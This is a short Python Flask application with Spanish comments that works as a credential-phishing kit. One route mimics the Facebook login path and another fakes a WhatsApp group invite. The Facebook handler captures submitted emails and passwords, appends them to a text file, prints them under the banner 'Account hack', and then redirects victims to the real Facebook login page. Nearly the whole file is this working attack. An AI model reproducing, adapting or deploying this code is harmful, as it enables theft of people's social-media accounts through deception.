 
from flask import Flask, flash, render_template, request, redirect, url_for, abort, session, escape, make_response, send_from_directory #el modulo de Flask

import os, random
app=Flask(__name__) #la aplicación
app.secret_key="key" #un código secreto, para realizar peticiones GET, POST


@app.route("/")
def Index():
	return redirect("admin")



@app.route("/admin", methods=["GET","POST"])
def admin():
	return render_template("/admin.html")


@app.route("/chat.whatsapp.com/C9834gh9g5hgg45hj6j65j56het3", methods=["GET","POST"])
def invite():
	return render_template("/whatsapp.html")
@app.route("/facebook.com/login", methods=["GET","POST"]) #Crea un link
def facebook(): # Se ejecuta lo que esta adentro cuando entran al link
	if request.method=="POST":
		email=request.form.get('email');
		passs=request.form.get('pass');
		if email!=None and passs!=None:
			file = open("accounts.txt" , "a+")
			file.write("Email: " + email +"\nPassword: " + passs + "\n\n")
			file.close()
			print("\033[92m---Account hack------")
			print("\033[91mEmail: " + email)
			print("\033[91mPass: " + passs)	
			print("\033[92m---------------------")
			
			return redirect("https://m.facebook.com/login/?ref=dbl&fl")
	return render_template("/index.html")


if __name__ == "__main__":
	app.run(debug=True, port=5000)
 

